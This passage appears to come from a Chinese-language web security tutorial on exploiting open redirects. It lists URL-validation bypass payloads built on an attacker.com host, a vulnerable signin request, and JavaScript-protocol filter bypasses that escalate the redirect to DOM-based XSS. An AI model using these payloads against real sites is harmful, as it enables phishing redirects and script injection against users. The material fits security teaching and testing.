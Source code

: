 ```
https://attacker.com%00example.com
https://attacker.com%0Aexample.com
https://attacker.com%0Dexample.com
https://attacker.com%09example.com
https://example.com°attacker.com

# Bypass weak top-level domain (TLD) validation
https://example.comattacker.com
https://example.com.mx
https://example.company                                  # .company is a valid TLD
https://attacker.com%E3%80%82example.com                 # URL encoded Chinese dot

```

  
**将上述有效载荷中的example.com**  
替换为目标允许的主机或域名，将**attack.com**  
替换为您控制的域名。  
  
**提示！PortSwigger 有一个详尽的****URL 验证绕过备忘单****，可以帮助您绕过弱 URL 验证！**  
#### 利用基于 DOM 的高级重定向  
  
正如我们之前提到的，基于 DOM 的重定向是由浏览器发起的。如果我们的输入以不安全的方式处理并传递到 DOM 接收器，我们就可以将开放的 URL 重定向升级为基于 DOM 的跨站点脚本 (XSS) 漏洞。  
  
如果我们看一下之前的易受攻击的代码片段：  
  
![img](data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHdpZHRoPSIzMDE1IiBoZWlnaHQ9IjEyNzIiPjwvc3ZnPg==)![Vulnerable code snippet](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMFRFPRJX98ia00XWgcpicuk2tLCl9TpXIMS0eNzr5xPtABJIicqwFRw5ezocAiaC3SYibAxsEGsrozfbKQ/640?wx_fmt=png&from=appmsg "")  
  
  
易受攻击的代码片段  
  
我们可以轻松发送以下有效载荷来执行
```
alert()
```

  
函数调用：  

```
GET /signin?redirectURL=javascript:alert() HTTP/1.1
Host: example.com

```

  
该有效载荷将被传递到**window.location.href**  
 DOM-sink 并执行我们的任意代码。  
  
下面列出了更多利用 JavaScript 协议的绕过方法，以防我们的基本有效载荷被过滤：  

```
# Simple bypasses
javascript:alert(1)
JavaScript:alert(1)
JAVASCRIPT:alert(1)

# Bypass weak regex patterns (try repositioning the URL-encoded special characters)
ja%20vascri%20pt:alert(1)
jav%0Aascri%0Apt:alert(1)
jav%0Dascri%0Dpt:alert(1)
jav%09ascri%09pt:alert(1)

# More advanced weak regex pattern bypasses
%19javascript:alert(1)
javascript://%0Aalert(1)
javascript://%0Dalert(1)
javascript://https://example.com%0Aalert(1)

```
